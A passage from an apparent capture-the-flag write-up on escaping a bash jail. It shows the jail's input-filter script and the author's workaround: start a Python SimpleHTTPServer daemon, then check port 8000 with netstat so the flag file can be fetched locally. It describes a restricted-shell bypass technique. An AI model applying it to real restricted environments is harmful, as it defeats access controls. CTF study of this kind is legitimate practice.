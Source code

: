 ```.shell
                return 0
        fi

        return 1
}

while :
do
        echo "Your input:"
        read input
        if check_space "$input" 
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output=`$input < /dev/null` &>/dev/null
                echo "Command executed"
        fi
done 

-----------------------------
Your input:
```

Since a lot of characters are not allowed, stdout/stderr redirection is not working anymore. And regarding `< /dev/null`: This is mostly used to [detach a process from a tty](http://stackoverflow.com/questions/19955260/what-is-dev-null-in-bash). That means we are allowed to launch some daemons. After some try & failure I thought of starting some web server and then "downloading" the flag file using a GET request. At that point I had 2 problems:

* start a server
* **somehow** GET the flag.txt file

Starting a web server was easy:

```
Your input:
python -m SimpleHTTPServer
``` 

Now I had to download the file using `http://127.0.0.1:8000`. Then I've realized that for **level1** I had a `bash` I could use to download the file:

```
level1@lxc17-bash-jail:~$ netstat -tan 1>&0
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0    316 10.0.3.26:22            195.178.101.66:35930    ESTABLISHED
tcp        0      0 10.0.3.26:22            195.178.101.66:13279    ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
```

As you can see the web server is running on port `8000`. Since `wget`, `curl` or other HTTP clients were not available, I had to run python again in order to get the file:

